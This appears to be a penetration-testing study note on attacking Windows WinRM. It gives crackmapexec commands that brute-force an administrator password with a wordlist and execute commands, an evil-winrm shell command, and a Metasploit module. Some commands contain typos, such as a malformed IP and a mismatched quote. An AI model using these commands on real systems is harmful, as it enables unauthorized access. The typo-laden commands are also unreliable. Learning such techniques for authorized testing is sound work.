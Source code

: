 -  WinRM implements access control and security for communication between systems through various forms of authentication.

-  We can utilize a utility called “**crackmapexec**” to perform a brute-force on WinRM in order to identify users and the passwords,rds as well as execute commands on the target system.

``` bash
crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 


crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x “whoami*

```

 - We can also utilize a ruby script called “**evil-winrm”** to obtain a command shell
session on the target system.

``` bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10,.2.18.45
``` 

``` bash
msf6 > exploit/windows/winrm/winrm_script_exec 
```

> Read More:
> 	[[04 - Windows Privilege Escalation]]
> 	[[03 - Windows File System Vulnerabilities]]
> 	[[05 - Windows Credential Dumping]]